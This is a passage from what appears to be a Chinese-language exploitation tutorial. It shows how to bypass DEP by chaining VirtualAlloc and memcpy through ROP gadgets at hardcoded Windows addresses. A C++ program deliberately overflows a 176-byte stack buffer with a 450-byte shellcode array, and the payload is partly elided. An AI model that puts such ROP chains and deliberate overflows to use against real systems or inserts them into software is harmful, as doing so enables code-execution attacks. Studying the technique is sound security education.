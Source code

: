 内存申请成功时函数返回申请内存的起始地址，申请失败时返回 NULL。

我们将用如下代码演示如何利用 VirtualAlloc 函数申请具有可执行权限的内存，并利用memcpy 函数将 shellcode 复制到申请的内存中执行。

```c++
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
charshellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "……"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//修正 EBP retn 4
    "\xBC\x45\x82\x7C"//申请空间
    "\x90\x90\x90\x90"
    "\xFF\xFF\xFF\xFF"//-1 当前进程
    "\x00\x00\x03\x00"//申请空间起始地址
    "\xFF\x00\x00\x00"//申请空间大小
    "\x00\x10\x00\x00"//申请类型
    "\x40\x00\x00\x00"//申请空间访问类型
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C"//pop eax retn 
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x0B\x1A\xBF\x7C"//pop pop retn
    "\xBA\xD9\xBB\x7C"//修正 EBP retn4
    "\x5F\x78\xA6\x7C"//pop retn
    "\x00\x00\x03\x00"//可执行内存空间地址，转入执行用
    "\x00\x00\x03\x00"//可执行内存空间地址，复制用
    "\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
    "\xFF\x00\x00\x00"//shellcode 长度
    "\xAC\xAF\x94\x7C"//memcpy
    "\x00\x00\x03\x00"//一个可以读地址
    "\x00\x00\x03\x00"//一个可以读地址
    "\x00\x90\x90\x94"
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "……"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
    ;

void test()
{
 char tt[176];
 memcpy(tt,shellcode,450);
}
int main()
{
 HINSTANCE hInst = LoadLibrary("shell32.dll");
 char temp[200];
 test();
 return 0;
} 
```
